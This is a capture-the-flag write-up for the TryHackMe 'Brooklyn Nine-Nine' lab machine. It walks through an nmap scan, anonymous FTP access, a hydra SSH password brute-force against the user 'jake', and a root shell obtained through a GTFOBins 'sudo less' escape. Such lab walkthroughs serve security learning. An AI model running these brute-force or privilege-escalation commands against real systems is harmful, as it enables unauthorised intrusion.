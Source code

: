 # TryHackMe Brooklyn Nine-Nine


![Open Lightbox](../assets/Brooklyn-Nine-Nine1.webp){ .glightbox .center width="500" }
```
TryhackMe Machine:- Brooklyn Nine Nine
Machine Info:- pwn
Machine Level:- Easy
```

---
### Reconnaissance

On visiting the given IP you will see a simple page with an image.

![Open Lightbox](../assets/Brooklyn-Nine-Nine2.webp){ .glightbox .center width="500" }

On checking the page source, I didn't find anything.

I did an Nmap scan.


```bash
 nmap 10.10.214.64Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-28 17:54 ISTNmap scan report for 10.10.214.64Host is up (0.14s latency).Not shown: 997 closed tcp ports (conn-refused)PORT   STATE SERVICE21/tcp open  ftp22/tcp open  ssh80/tcp open  httpNmap done: 1 IP address (1 host up) scanned in 35.68 seconds
```

And port 21 ftp was open and I tried anonymous login on it and got in and found a txt file and pulled it out.

![Open Lightbox](../assets/Brooklyn-Nine-Nine3.webp){ .glightbox .center width="500" }

And found a message from Amy to Jake telling him that his password is weak now let's try fuzzing the password of jake using hydra.

```bash
hydra hydra -l jake -P rockyou.txt ssh://10.10.214.64 ssh -t 4
```

![Open Lightbox](../assets/Brooklyn-Nine-Nine4.webp){ .glightbox .center width="500" }

And successfully logged in as jake also got the user flag inside holt.

![Open Lightbox](../assets/Brooklyn-Nine-Nine5.webp){ .glightbox .center width="500" }

Privilege Escalation

Used the simplest thing a CTF mostly have, the easy level ones have is to check using Sudo -l and as expected you will see.

![Open Lightbox](../assets/Brooklyn-Nine-Nine6.webp){ .glightbox .center width="500" }

On checking on https://gtfobins.github.io/ found a method.

```bash
sudo less /etc/profile !/bin/bash
```

![Open Lightbox](../assets/Brooklyn-Nine-Nine7.webp){ .glightbox .center width="500" }

And we got the root user and the final flag.

![Open Lightbox](../assets/Brooklyn-Nine-Nine88.webp){ .glightbox .center width="500" }

Thanks you for Reading